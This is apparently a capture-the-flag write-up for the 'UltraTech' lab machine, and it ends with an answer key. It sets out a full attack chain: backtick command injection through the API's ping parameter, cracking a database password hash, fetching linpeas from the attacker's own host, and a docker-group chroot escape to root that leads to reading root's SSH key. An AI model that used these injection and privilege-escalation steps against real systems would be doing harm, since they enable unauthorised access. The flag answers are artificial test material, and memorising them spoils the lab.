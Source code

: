 # UltraTech - Medium

```shell
rustscan -a 10.10.193.156 --range 0-65535 --ulimit 5000 -- -sV

gobuster dir -u http://10.10.193.156:8081 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

gobuster dir -u http://10.10.193.156:31331 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

ssh r00t@10.10.193.156

ls -la

#searching for privesc vectors

#on attacker machine
python3 -m http.server

#back to SSH session
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#docker exploit from GTFObins
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
#this gives alpine not found error

docker images
#we have bash image here, that can be used

docker run -v /:/mnt --rm -it bash chroot /mnt sh
#this gives us root shell

cd /root

ls -la

cd .ssh

ls -la

cat id_rsa
#we can get root user's private SSH key here
```

```markdown
Open ports & services:

  * 21 - ftp - vsftpd 3.0.3
  * 22 - ssh - OpenSSH 7.6p1
  * 8081 - http - Node.js
  * 31331 - http - Apache httpd 2.4.29 (Ubuntu)

We can start enumerating web servers on both ports for directories while we explore the websites.

The webpage on port 8081 has the text "UltraTech API v0.1.3" and nothing else.

The webpage on port 31331 contains a generic webpage for the UltraTech company.

Directories on port 8081:

  * /auth
  * /ping

Directories on port 31331:

  * /css
  * /favicon.ico
  * /images
  * /index.html
  * /js
  * /partners.html
  * /robots.txt
  * /what.html

On port 31331, /js/api.js includes some logic behind the API on port 8081.
Furthermore, on /partners.html, we have a login page.

On /partners.html, when we attempt to login with an username and password, it redirects to the /auth page on port 8081 with a response.

Using the given hint, we are told not to spend too much time on /auth, so we navigate to the API code on /js/api.js

It contains a line of code:

    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

We can try command execution by inserting our commands in the 'ip' parameter.

Using <http://10.10.193.156:8081/ping?ip=whoami> does not work; however if we use <http://10.10.193.156:8081/ping?ip=`whoami`> by adding backticks like the example snippet, we get an output in the error message.

From "ip=`ls -la`", we get to know the name of the database file used.

Using "ip=`cat utech.db.sqlite`", we get a couple of hashes for two users - r00t and admin.

The MD5 hash can be cracked with the help of online services.

Now we have the credentials r00t:n100906, we can SSH into the machine with this.

After SSHing, we need to find for privesc vectors; we can do so using linpeas.sh

We are part of the dockers group, so we can exploit that; we can use the exploit from GTFObins.

We need to make slight changes to it since we do not have the alpine image locally.

We eventually get shell as root using the bash image found.

root's private SSH key can be found in /root/.ssh/id_rsa
```

1. Which software is using the port 8081? - Node.js

2. Which other non-standard port is used? - 31331

3. Which software using this port? - Apache

4. Which GNU/Linux distribution seems to be used? - Ubuntu

5. The software using the port 8081 is a REST api, how many of its routes are used by the web application? - 2

6. There is a database lying around, what is its filename? - utech.db.sqlite

7. What is the first user's password hash? - f357a0c52799563c7c7b76c1e7543a32

8. What is the password associated with this hash? - n100906

9. What are the first 9 characters of root user's private SSH key? - MIIEogIBA
